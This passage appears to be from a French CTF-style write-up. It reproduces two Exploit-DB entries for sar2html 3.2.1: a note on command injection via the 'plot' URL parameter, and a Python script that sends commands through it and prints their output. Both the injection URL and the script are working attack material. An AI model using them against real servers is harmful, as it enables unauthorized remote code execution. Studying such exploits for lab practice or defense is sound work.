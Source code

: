 ```bash
$ cat /usr/share/exploitdb/exploits/php/webapps/47204.txt   
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute
the command you entered. After command injection press "select # host" then your command's
output will appear bottom side of the scroll screen
```

Cette note écrite par *Furkan KAYAPINAR* permet d'exécuter du code à distance sur un serveur en envoyant une commande dans l'URL de la page web.

L'url en question est : `http://<ipaddr>/index.php?plot=;<command-here>`

On pourrait le faire manuellement dans le navigateur internet, burp, curl, ... mais un exploit existe (écris par *Musyoka Ian*), il est même disponible dans **exploit-db** :

```python
GNU nano 7.2                                                                          49344.py                                                                                    
# Exploit Title: sar2html 3.2.1 - 'plot' Remote Code Execution
# Date: 27-12-2020
# Exploit Author: Musyoka Ian
# Vendor Homepage:https://github.com/cemtan/sar2html
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Ubuntu 18.04.1

#!/usr/bin/env python3

import requests
import re
from cmd import Cmd

url = input("Enter The url => ")

class Terminal(Cmd):
    prompt = "Command => "
    def default(self, args):
        exploiter(args)

def exploiter(cmd):
    global url
    sess = requests.session()
    output = sess.get(f"{url}/index.php?plot=;{cmd}")
    try:
        out = re.findall("<option value=(.*?)>", output.text)
    except:
        print ("Error!!")
    for ouut in out:
        if "There is no defined host..." not in ouut:
            if "null selected" not in ouut:
                if "selected" not in ouut:
                    print (ouut)
    print ()

if __name__ == ("__main__"):
    terminal = Terminal()
```